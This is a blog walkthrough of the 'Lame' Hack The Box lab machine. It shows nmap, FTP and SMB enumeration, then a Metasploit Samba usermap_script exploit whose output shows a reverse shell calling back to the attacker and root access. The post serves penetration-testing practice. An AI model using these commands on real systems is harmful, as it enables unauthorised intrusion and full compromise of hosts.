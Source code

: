 ```yaml
---
layout: post
title:  "HTB-Lame"
date:   2020-02-15 20:45:57 +0000
categories: HTB-Walkthrough
---
```


![lame](/assets/img/lame.png)

Lets kick this off by using nmap to scan the target
`nmap -A 10.10.10.3 |tee -a lame.txt`
The `-A` flag sets the scan to agressive...not always the best choice, but im in a bit of a mood!


```

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```


1st try anonymous ftp login and enum.

```plaintext

ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
ftp> pwd
257 "/"
ftp> cd ..

```

2nd try smbclient and port 445 enum.

```

root@kali:~/HTB/prep/lame# smbclient -L 10.10.10.3
Enter WORKGROUP\root's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            LAME
```

We can see that the target is running Samba 3.0.20-Debian, maybe it has some known 
vulnerability we can find, but first lets take the hint and explore `tmp` 

```

root@kali:~/HTB/prep/lame# smbclient //10.10.10.3/tmp
Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Nov  6 11:38:07 2019
  ..                                 DR        0  Sun May 20 20:36:12 2012
  orbit-makis                        DR        0  Wed Nov  6 11:25:31 2019
  .ICE-unix                          DH        0  Wed Nov  6 10:47:27 2019
  .X11-unix                          DH        0  Wed Nov  6 10:47:51 2019
  gconfd-makis                       DR        0  Wed Nov  6 11:25:31 2019
  5141.jsvc_up                        R        0  Wed Nov  6 10:48:34 2019
  .X0-lock                           HR       11  Wed Nov  6 10:47:51 2019

		7282168 blocks of size 1024. 5678328 blocks available
smb: \> 

```
Nothing immediately helpful here...so lets check Searchsploit for possible known exploits.

Searchsploit reveals a metasploit exploit for Samba 3.x
Ok lets see how effective it is...

Start up msfconsole, then:

`use exploit/multi/samba/usermap_script`
use the command `show options` to see what info is required to make this work...
`set rhosts 10.10.10.3`
pull the trigger with `exploit` command...


```

msf5 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP double handler on 10.10.14.31:4444
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo gcMvWCjjW9n0VrCc;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "gcMvWCjjW9n0VrCc\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.31:4444 -> 10.10.10.3:54951) at 2020-01-21 11:42:12 -0500

id
uid=0(root) gid=0(root)
cd /home
ls
ftp
makis
service
user
cd makis
ls
user.txt
cat user.txt
69xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxc5
cat /root/root.txt
92xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxdf

```

Oh, right....that was quick. I can see where the box gets its name from now;
Nobody in their right mind should still be running this Samba version!

A good easy box for beginners to get to have a go at the basic tools, and methodology.
Lets quickly move on to another box...



#######################

